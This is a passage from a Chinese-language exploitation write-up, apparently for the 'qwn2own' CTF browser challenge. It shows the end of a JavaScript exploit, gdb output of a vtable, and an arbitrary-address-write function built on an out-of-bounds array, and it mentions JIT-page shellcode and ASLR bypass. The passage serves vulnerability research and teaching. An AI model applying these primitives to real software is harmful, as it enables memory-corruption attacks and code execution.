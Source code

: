 ```
                    print(x);
                    break;
                `}`        
        `}`
    `}`
    exploit();
&lt;/script&gt;
```

[![](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/ydW7KE.png)](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/ydW7KE.png)

Gdb attach到浏览器，查看虚函数表地址

```
gef➤  x/20xg 0x55f34f2ed400
0x55f34f2ed400 &lt;_ZTV8BKPStore+16&gt;:    0x000055f34f0e8b80    0x000055f34f0e8eb0
0x55f34f2ed410 &lt;_ZTV8BKPStore+32&gt;:    0x000055f34f0e8ff0    0x000055f34f0e93d0
0x55f34f2ed420 &lt;_ZTV8BKPStore+48&gt;:    0x000055f34f0e9230    0x00007f7f7d357b10
```

同理任意地址写的代码只需把read函数的get换成insert

```
function write(addr,content)
        `{`
            offset=addr-C_vec;
            B.insert(B2C_index-1,offset); //修改offset
            if(C.get(0)==key2)    //检测offset是否成功修改    
                return false;
            C.insert(0,content);
            return true;
        `}`
```

不过这里，任意地址写没办法修改虚函数表，会报段错误。修改程序流程只需要将vtable覆盖即可，不过这次的案例并不会覆盖虚表的方式，而会使用JIT Page的方式写入shellcode。****因为篇幅问题，完整利用详见我的[博客](https://migraine-sudo.github.io/2019/12/20/qwn2own/)。****



## 小结

本次的两个案例，前者通过堆溢出来修改BSTR结构实现地址泄漏，而后者本身就是数组越界漏洞，同样可以用前者的方式来完成利用，由于QArrayData结构的特殊性，可以进一步实现一个OOB（任意地址读/写）漏洞。数组结合javascript依然是内存漏洞的绕过ASLR的重要手段，不仅仅是浏览器，支持脚本语言软件都有可能被如此灵活的运用。作为漏洞研究者，这类技术是可以被总结存入武器库中的，而作为防御者（/开发者），则更需要从漏洞中吸取教训，防止一个普通的数组越界再次创造一个神洞。
